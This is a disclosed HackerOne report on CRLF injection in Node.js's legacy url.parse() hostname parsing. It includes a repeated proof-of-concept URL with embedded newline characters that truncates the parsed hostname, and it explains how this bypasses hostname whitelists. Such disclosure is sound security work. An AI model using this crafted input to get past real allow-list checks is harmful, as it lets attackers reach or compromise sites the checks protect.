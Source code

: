 # CRLF Injection in legacy url API (url.parse().hostname)

## Report Details
- **Report ID**: 771596
- **URL**: https://hackerone.com/reports/771596
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-10T12:07:06.310Z
- **Disclosed**: 2020-01-10T17:55:53.774Z

## Reporter
- **Username**: vavkamil
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**

There is CRLF Injection in legacy `url.hostname()` API.

**Description:**

During the recent penetration test, I have found a whitelist bypass using CRLF Injection. We did a code review and determined the issue is in a legacy url.hostname() API. Not sure if it's a known issue or not, I wasn't able to find any report related to `url.hostname()`.

## Steps To Reproduce:

```
poc_url = "http://test1.com\n\rtest2.com"

const url = require('url');
console.log("Vulnerable: ", url.parse(poc_url).hostname)

console.log("\n")

const myURL = new URL(poc_url);
console.log("Not Vulnerable: ", myURL.hostname)
```

Not exactly sure where is the problem, but probably in here:
`https://github.com/nodejs/node/blob/master/lib/url.js#L298-L340`

## Impact:

Even if it's legacy code, there still might be a lot of projects and codebases relying on it. As mentioned in the description, I was able to bypass a whitelist function during the recent penetration test and exploit a medium/high vulnerability thanks to it.

## Supporting Material/References:

Poc:
```
poc_url = "http://test1.com\n\rtest2.com"

const url = require('url');
console.log("Vulnerable: ", url.parse(poc_url).hostname)

console.log("\n")

const myURL = new URL(poc_url);
console.log("Not Vulnerable: ", myURL.hostname)
```

Output:
```
Vulnerable:  test1.com

Not Vulnerable:  test1.comtest2.com
```

## Impact

Whitelist function can use url.parse("https://example.com").hostname to check for allowed hostnames. It can be easily bypassed using CRLF injection and it can lead to whitelist bypass and compromise of the website.

## Attachments
No attachments
